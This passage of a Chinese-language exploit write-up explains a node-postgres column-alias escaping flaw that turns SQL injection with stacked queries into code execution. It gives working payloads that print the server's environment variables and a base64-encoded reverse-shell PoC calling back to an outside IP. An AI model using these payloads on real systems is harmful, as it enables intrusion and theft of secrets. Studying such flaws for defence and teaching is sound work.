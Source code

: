 ```js
                </html>`
})

app.listen(3000)
```

显然17行的`let sql = `语句有sql的可能，不过注意这里的可控参数在where之后而不在select之后，我们没法轻易的控制字段名，即使是用联合查询

```sql
select * from "user" where id=-1 union slect 1,2,3 as "\\'+console.log(process.enc)]=null;//"
```

第二个select后的字段名也不会被postgres返回，只会回显第一个查询结果

但是我们可以直接执行多语句

```sql
/?id=1;select+1+as+"\'+console.log(process.env)]=null;//"
```

会返回500，但是已经被正常执行语句了，打印出了环境变量

![image-20211117162422478](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211117162422478.png)

原理呢，就是经典的转义不全

```js
var inlineParser = function (fieldName, i) {
  return "\nthis['" +
    // fields containing single quotes will break
    // the evaluated javascript unless they are escaped
    // see https://github.com/brianc/node-postgres/issues/507
    // Addendum: However, we need to make sure to replace all
    // occurences of apostrophes, not just the first one.
    // See https://github.com/brianc/node-postgres/issues/934
    fieldName.replace(/'/g, "\\'") +
    "'] = " +
    'rowData[' + i + '] == null ? null : parsers[' + i + '](rowData[' + i + ']);'
}
```

fileName就是字段名，只对单引号前加反斜杠`fileName.replace(/'/g, "\\'")`，我们只要再加一个反斜杠就能逃逸了，所以我们就有了可控的字段名

我们上面的payload传入之后会是这样

```sql
'SELECT * FROM "user" WHERE "id" = 1;select 1 as "\\' console.log(process.env)]=null;//"'
```

诶，闭合了；如果在中间解析的地方下断点，可以看到传入Function类的函数体ctorBody值为

```js
this['\\'+console.log(process.env)]=null;//'] = rowData[0] == null ? null : parsers[0](rowData[0]);
```

确实，执行的就是我们的恶意语句

构造反弹shell的poc，执行即可反弹shell（不成功的话记得把urlencode的special chars勾上）

```sql
/?id=1;SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xMDEuMzUuMTE0LjEwNy84NDI2IDA+JjE=|base64 -d|bash`)//"
```
